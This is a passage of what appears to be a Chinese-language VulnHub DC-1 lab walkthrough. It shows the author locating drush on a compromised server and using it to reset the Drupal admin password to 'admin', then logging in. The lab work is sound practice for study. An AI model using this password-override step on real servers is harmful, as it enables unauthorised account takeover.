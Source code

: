 ok 登上去了

**通过 drush 修改 admin 用户的密码**

Drush是一个 shell 接口，用于从云服务器命令行管理 Drupal。

现在服务器上找找 drush,没有的话还得给他传一个
```
find / -name drush
/var/www/sites/all/modules/views/drush
/var/www/sites/all/modules/ctools/drush
/usr/local/bin/drush
```

然后直接修改 admin 密码
```
/usr/local/bin/drush user-password admin --password="admin"
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/18.png)

测试一下,ok 登上去了

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/19.png)
